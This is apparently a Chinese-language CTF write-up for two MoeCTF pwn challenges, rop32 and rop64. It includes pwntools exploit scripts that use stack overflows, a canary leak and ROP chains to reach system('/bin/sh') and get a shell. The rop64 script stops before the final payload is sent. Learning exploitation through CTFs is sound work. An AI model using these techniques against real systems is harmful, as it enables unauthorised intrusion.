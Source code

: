 检查保护

![image-20221006223533510](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006223533510.png)

程序给了  ‘/bin/sh’  字符串，还有 system  函数，直接构造payload就可以直接getshell

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("moectf.challenge.ctf.show",27003)
#io = process("./rop32")

offset = 0x1c + 0x4
bin_sh_addr = 0x804c024
sys_addr = 0x80491e7

payload = ('A'*offset).encode() + p32(sys_addr) + p32(bin_sh_addr)
io.sendline(payload)
io.interactive()
```

### rop64

检查保护

![image-20221006223622038](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006223622038.png)

发现有canary，用来保护栈不被破坏，因此要泄露canary的值

![image-20221006223805110](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006223805110.png)

题中给了两个read函数，中间还有个printf函数，可以直接覆盖到canary的最后一个字节（canary的最后一个字节一般为0，因为小端存储，位于内存的左端，覆盖之后可以使输入的字符串连接到canary，从而将canary输出）

没开PIE，程序中也有 /bin/sh 和 system 函数，利用pop_rdi gadget（64位程序传参会先用寄存器，rdi，rsi，rdx，rcx...）直接构造就行

![image-20221006233102441](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006233102441.png)

exp:

```python
#!/usr/bin/env python3
from pwn import*

#io = remote("124.223.158.81",27004)
io = process("./rop64")
context.log_level = 'debug'

offset = 40
payload1 = ('A'*offset).encode()
io.recvline()
io.sendline(payload1)

pop_rdi = 0x4011de
bin_sh = 0x404058
sys_addr = 0x401284

#attach(io)
io.recvline()
canary = u64(io.recv(7).rjust(8,b'\x00'))
print(hex(canary))

payload2 = ('A'*offset).encode() + p64(canary) + b'AAAAAAAA' + p64(pop_rdi) + p64(bin_sh) + p64(sys_addr)
```